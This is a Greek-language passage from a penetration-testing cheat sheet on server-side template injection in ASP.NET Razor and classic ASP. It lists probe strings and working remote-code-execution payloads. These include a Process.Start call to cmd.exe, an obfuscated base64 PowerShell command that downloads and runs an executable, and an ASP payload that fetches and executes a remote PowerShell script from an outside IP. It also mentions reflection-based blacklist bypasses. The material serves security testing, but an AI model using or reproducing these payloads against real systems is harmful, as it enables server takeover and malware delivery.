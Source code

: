 <figure><img src="../../images/image (3) (1).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*GY1Tij_oecuDt4EqINNAwg.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*GY1Tij_oecuDt4EqINNAwg.jpeg</a></p></figcaption></figure>

- Περισσότερες πληροφορίες στο [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

### Razor (.Net)

- `@(2+2) <= Επιτυχία`
- `@() <= Επιτυχία`
- `@("{{code}}") <= Επιτυχία`
- `@ <= Επιτυχία`
- `@{} <= ΣΦΑΛΜΑ!`
- `@{ <= ΣΦΑΛΜΑ!`
- `@(1+2)`
- `@( //C#Code )`
- `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
- `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`

Η μέθοδος .NET `System.Diagnostics.Process.Start` μπορεί να χρησιμοποιηθεί για να ξεκινήσει οποιαδήποτε διαδικασία στον διακομιστή και έτσι να δημιουργήσει ένα webshell. Μπορείτε να βρείτε ένα παράδειγμα ευάλωτης webapp στο [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)

**Περισσότερες πληροφορίες**

- [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](<https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/>)
- [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)

### ASP

- `<%= 7*7 %>` = 49
- `<%= "foo" %>` = foo
- `<%= foo %>` = Τίποτα
- `<%= response.write(date()) %>` = \<Date>
```xml
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>
```
**Περισσότερες Πληροφορίες**

- [https://www.w3schools.com/asp/asp_examples.asp](https://www.w3schools.com/asp/asp_examples.asp)

### .Net Παράκαμψη περιορισμών

Οι μηχανισμοί Reflection του .NET μπορούν να χρησιμοποιηθούν για να παρακάμψουν τη μαύρη λίστα ή κλάσεις που δεν είναι παρούσες στη βιβλιοθήκη. DLL's μπορούν να φορτωθούν κατά την εκτέλεση με μεθόδους και ιδιότητες προσβάσιμες από βασικά αντικείμενα.
